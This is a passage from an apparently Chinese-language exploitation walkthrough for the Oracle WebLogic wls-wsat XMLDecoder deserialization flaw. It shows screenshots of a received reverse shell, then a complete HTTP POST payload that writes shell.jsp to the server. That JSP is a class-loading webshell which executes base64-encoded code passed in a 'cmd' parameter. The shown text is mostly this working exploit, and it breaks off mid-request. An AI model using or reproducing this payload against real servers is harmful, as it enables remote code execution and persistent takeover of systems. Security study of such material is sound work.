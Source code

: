 发送HTTP报文  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEC921759LNwDkicE8wvr9T2JRMRdrnfhA8fmibMX8E2bdXfhdOjZSYxJQ/640?wx_fmt=png&from=appmsg "")  
  
成功接收到反弹Shell，如下图所示  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEW3hrtylRR0Ez3aibnnc7pogTYgjgWIGqRHJ9SJOWHPwRQqGV4scMFZA/640?wx_fmt=png&from=appmsg "")  
  
利用方式3 上传WebShell  
  
HTTP请求报文  
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.111.128:7001
Accept-Encoding: gzip, deflate
Accept: */*Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 1565

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>   
  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
  <java><java version="1.4.0" class="java.beans.XMLDecoder"> 
  <object class="java.io.PrintWriter">   
  <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/shell.jsp</string> 
  <void method="println">
<string>
  <![CDATA[
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("cmd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
  ]]> 
  </string>  
  </void>   
  <void method="close"/>   
```